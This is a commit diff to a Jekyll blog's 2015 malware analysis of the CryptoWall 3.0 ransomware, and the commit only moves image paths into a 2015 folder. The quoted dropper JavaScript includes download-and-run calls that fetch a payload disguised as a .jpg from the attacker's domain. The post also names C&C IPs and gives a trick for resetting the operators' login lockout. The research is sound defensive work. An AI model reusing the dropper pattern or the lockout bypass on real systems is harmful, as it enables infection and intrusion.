

Before and after one commit to NavyTitanium/NavyTitanium.github.io, a Jekyll site: the page built from _posts/2015-10-29-CryptoWall-3.0.md, in a window 1280 px wide and 900 px high, scrolled down 2510 px. Shown: the part 151-451 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2015-10-29-CryptoWall-3.0.md

````diff
--- a/_posts/2015-10-29-CryptoWall-3.0.md
+++ b/_posts/2015-10-29-CryptoWall-3.0.md
@@ -13,7 +13,7 @@
 CryptoWall is known to be one the most popular ransomware. [The FBI](http://www.ic3.gov/media/2015/150623.aspx) says it has received 992 complaints about CryptoWall, with victims reporting losses of $18m. [Symantec](https://www4.symantec.com/mktginfo/whitepaper/ISTR/21347932_GA-internet-security-threat-report-volume-20-2015-social_v2.pdf) also said that ransomware attacks have more than doubled in 2014 from 4.1 million in 2013, up to 8.8 million. It's using today's most sophisticated exploit kit such as Nuclear, Neutrino, and Angler in order to infect the victim. Consequently, this ransomware is using all ways possible to infect victims. The main goal of this destructive malware is to search for all file with certain extensions on the computer victim and network drives to encrypt them. It then asks for a ransom, which is normally $500 USD (and doubles after a certain period of time) for decryption.
 
 <figure>
-  <img src="/images/ransom.png" alt="Ransom payment over TOR">
+  <img src="/images/2015/ransom.png" alt="Ransom payment over TOR">
   <figcaption>CryptoWall payment page</figcaption>
 </figure>
 
@@ -22,7 +22,7 @@
 The ransomware has multiple ways to infect victims. However, we often see malicious infected email attachments sent to victims containing the dropper. One of the dropper that we studied came from an email attachment in a .zip file. It contained an obfuscated JavaScript file which is used for downloading the payload. It is also common to see word documents containing a malicious VBA macro.
 
 <figure>
-<img src="/images/zip_info-2.png" alt="The malicious email attachment">
+<img src="/images/2015/zip_info-2.png" alt="The malicious email attachment">
   <figcaption>.ZIP file received by email, containing a JavaScript file</figcaption>
 </figure>
 
@@ -51,12 +51,12 @@
 ws.Run(fn, 0, 0);
 };
 } catch (er){  }  ;
-}dl("http://22072014b.com/images/global1.jpg", "16477935.exe", 1);dl("http://22072014b.com/images/global1.jpg", "89555869.exe", 1);
+}dl("http://22072014b.com/images/2015/global1.jpg", "16477935.exe", 1);dl("http://22072014b.com/images/2015/global1.jpg", "89555869.exe", 1);
 ```
 
 This script is used to download the payload (from a hard coded URL) of CryptoWall 3.0, rename it and execute it from the TEMP directory. It's interesting to note that the original payload is a .JPG file, which is a simple trick to hide itself.
 
-![dropper](/images/dropper.jpg)
+![dropper](/images/2015/dropper.jpg)
 
 We believe that this domain (22072014b.com) is owned by the bad guy and it's also seems to use the fast flux DNS technique. However, this domain is currently suspended by the ICANN.
 
@@ -97,7 +97,7 @@
 
 The malware first sends a hello message to the C&C before getting the actual encryption key:
 
-![](/images/first-message.png)
+![](/images/2015/first-message.png)
 
 Using [this python](/assets/rc4.py) code, we can decrypt the message easily:
 
@@ -109,7 +109,7 @@
 
 After, the infected computer replies with another message:
 
-![first-message](/images/first-message.png)
+![first-message](/images/2015/first-message.png)
 
 Request: `{7|crypt13|4FB5B06D293F2DD13810B2979DBA08E0|1}`
 
@@ -135,7 +135,7 @@
 
 However, two of the WordPress observed had a [PHP backdoor](https://www.microsoft.com/security/portal/threat/encyclopedia/entry.aspx?name=Backdoor%3aPHP%2fWebShell.A&threatid=2147651339&enterprise=0) installed, which is a PHP file that allows the attacker to have a web control panel:
 
-![php_backdoor_censored3](/images/php_backdoor_censored2.jpg)
+![php_backdoor_censored3](/images/2015/php_backdoor_censored2.jpg)
 
 With this malicious code, they can access and control multiple things on the servers. Furthermore, this allowed us to download the code which serves to respond to infected computers. Getting our hands [on this file](/assets/3.php) allowed us to move forward to better understand the communication and the infection process. What we can see in [this PHP code](/assets/3.php) is that the ransomware:
 
@@ -145,7 +145,7 @@
 
 We tried it by installing a PHP server on a local computer and making a fake call to the CryptoWall PHP file. We then captured the traffic exchanged between the server and the mothership:
 
-![wordpress_to_mothership](/images/wordpress_to_mothership.png)
+![wordpress_to_mothership](/images/2015/wordpress_to_mothership.png)
 
 Request: `{7|crypt19|7A1A7EA984BD56663C7A5558576C3559|1}`
 
@@ -160,36 +160,36 @@
 We then used Elastic Search and Kibana to visually represent the data:
 
 <figure>
-<img src="/images/users-request-first-file.png" alt="Requests made to the first WordPress site over 29 hours">
+<img src="/images/2015/users-request-first-file.png" alt="Requests made to the first WordPress site over 29 hours">
   <figcaption>Requests made to the first WordPress site over 29 hours</figcaption>
 </figure>
 
 <figure>
-<img src="/images/user-request-second-file-1024x440.png" alt="Requests made to the second WordPress site over 88 hours">
+<img src="/images/2015/user-request-second-file-1024x440.png" alt="Requests made to the second WordPress site over 88 hours">
   <figcaption>Requests made to the second WordPress site over 88 hours</figcaption>
 </figure>
 
 We then aggregated the data of both WordPress sites to pull out statistics about the victims. The MaxMind databases were used to find the country and the AS from the originating IP addresses of those entries:
 
 <figure>
-<img src="/images/top-30-AS-246x300.png" alt="Top originating AS of victims">
+<img src="/images/2015/top-30-AS-246x300.png" alt="Top originating AS of victims">
   <figcaption>Top originating AS of victims</figcaption>
 </figure>
 
 <figure>
-<img src="/images/top-20-country-257x300.png" alt="Top country of victims">
+<img src="/images/2015/top-20-country-257x300.png" alt="Top country of victims">
   <figcaption>Top country of victims</figcaption>
 </figure>
 
 <figure>
-<img src="/images/geoloc-global.png" alt="geoloc-global">
+<img src="/images/2015/geoloc-global.png" alt="geoloc-global">
   <figcaption>World map representing victim’s location from our dataset</figcaption>
 </figure>
 
 Multiple sub-versions of CryptoWall were also observed:
 
 <figure>
-<img src="/images/top-versions-258x300.png" alt="Different version used by CryptoWall">
+<img src="/images/2015/top-versions-258x300.png" alt="Different version used by CryptoWall">
   <figcaption>Different version used by CryptoWall</figcaption>
 </figure>
 
@@ -199,12 +199,12 @@
 
 Since we now had the IP address of the mothership from the PHP files on the infected WordPress, we started investigating it. The first IP was 95.128.182.22 and the second 95.128.182.121. Both of the IP were registered by an ISP named TrustInfo, in Moscow, Russia. The IP addresses have at least 3 open ports in common: 22, 80 and 3389. By browsing through them, we can't see much except a blank page on the main page. But after looking for other active pages on the servers, we found that the server status page was enabled:
 
-![server-statuspage](/images/server-statuspage.png)
+![server-statuspage](/images/2015/server-statuspage.png)
 
 As you can see, the server is apparently hosting a TOR hidden website (xtpdvz6dnj5nnpe7.onion). This hidden website is also a known TOR address from the ransom of CryptoWall 3.0. It's using NGINX proxy to forward requests. The POST requests that we're seeing are all the different WordPress sites forwarding the requests to the MotherShip and the parameter on each of these requests are the RC4 key for decrypting the communication.
 
 <figure>
-<img src="/images/decrypt-service.png" alt="Accessing the ransom page directly">
+<img src="/images/2015/decrypt-service.png" alt="Accessing the ransom page directly">
   <figcaption>Accessing the ransom page directly</figcaption>
 </figure>
 
@@ -213,7 +213,7 @@
 After verifying each of them, by establishing if the page http://ip/server-status/ showed us the same TOR address and had the same uptime, we found 9 more servers than the two previously discovered:
 
 <figure>
-<img src="/images/schema-1024x734.png" alt="CryptoWall 3.0 architecture">
+<img src="/images/2015/schema-1024x734.png" alt="CryptoWall 3.0 architecture">
   <figcaption>CryptoWall 3.0 architecture</figcaption>
 </figure>
 
@@ -221,29 +221,29 @@
 
 By comparing all the different requests made on the server status page, some GET requests got our attention. This lead us to a login page on this same server:
 
-![login mothership](/images/login-mothership.png)
+![login mothership](/images/2015/login-mothership.png)
 
 At first look, it seems to be the management page for the owners of CryptoWall. This page seems to be custom made. They are doing basic authentication with a username and a password. The password is hashed in MD5 client-side before being passed by the POST request to the server. After 3 failed attempts, the system refuses any more tries. It is however possible to reset the number of failed attempts by deleting the PHPSESSID cookie. However, we don't know what this page provides access to.
 
 After monitoring the status page, we also did some statistics:
 
 <figure>
-<img src="/images/requests-type-300x207.png" alt="Request type received by the server">
+<img src="/images/2015/requests-type-300x207.png" alt="Request type received by the server">
   <figcaption>Request type received by the server</figcaption>
 </figure>
 
 <figure>
-<img src="/images/average-CPU-load-1024x356.png" alt="CPU load over time">
+<img src="/images/2015/average-CPU-load-1024x356.png" alt="CPU load over time">
   <figcaption>CPU load over time</figcaption>
 </figure>
 
 <figure>
-<img src="/images/Total-access-1024x208.png" alt="Total access requests to the server over time">
+<img src="/images/2015/Total-access-1024x208.png" alt="Total access requests to the server over time">
   <figcaption>Total access requests to the server over time</figcaption>
 </figure>
 
 <figure>
-<img src="/images/status-at-peak.png" alt="At its peak, the server behind the proxy has processed almost 44 GB of data in 30 days">
+<img src="/images/2015/status-at-peak.png" alt="At its peak, the server behind the proxy has processed almost 44 GB of data in 30 days">
   <figcaption>At its peak, the server behind the proxy has processed almost 44 GB of data in 30 days</figcaption>
 </figure>
 
````
